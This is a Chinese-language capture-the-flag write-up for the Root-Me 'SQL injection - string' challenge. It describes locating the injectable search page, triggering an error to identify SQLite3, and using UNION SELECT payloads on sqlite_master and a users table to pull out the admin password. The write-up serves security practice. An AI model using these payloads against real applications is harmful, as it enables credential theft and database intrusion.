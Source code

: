 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[SQL injection - string](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-string)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-server/sqlinjection-string/)]

------


SQLi 水题。关键是找到注入点。

查看页面源码，发现这题其实是有 3 个页面的：

- [`?action=news`](http://challenge01.root-me.org/web-serveur/ch19/?action=news)
- [`?action=login`](http://challenge01.root-me.org/web-serveur/ch19/?action=login)
- [`?action=recherche`](http://challenge01.root-me.org/web-serveur/ch19/?action=recherche)

虽然三个页面都有数据库查询操作，但是测试发现注入点在 [`?action=recherche`](http://challenge01.root-me.org/web-serveur/ch19/?action=recherche) 页面。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/01.png)

------------

首先确认数据库类型，输入 payload ：`'exp error'` 故意不闭合引号，尝试令 SQL 报错。

通过页面回显的异常信息，可以确认是 SQLite3 数据库。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/02.png)

在 SQLite3 中只有一个系统隐藏表 sqlite_master ，其表结构如下：

```sql
CREATE TABLE sqlite_master (
    type TEXT,
    name TEXT,
    tbl_name TEXT,
    rootpage INTEGER,
    sql TEXT
);
```

这张表存储了数据库中每个数据表的信息，可以通过它找到其他数据表。

构造跨表查询 payload ：`exp' or 1=1 union select name, sql from sqlite_master --`

从中找到账户表及其表结构 `users (CREATE TABLE users(username TEXT, password TEXT, Year INTEGER))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/03.png)

进一步构造 payload 跨表查询 users 的账号信息：

`exp' or 1=1 union select username, password from users --`

得到 admin 的密码，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

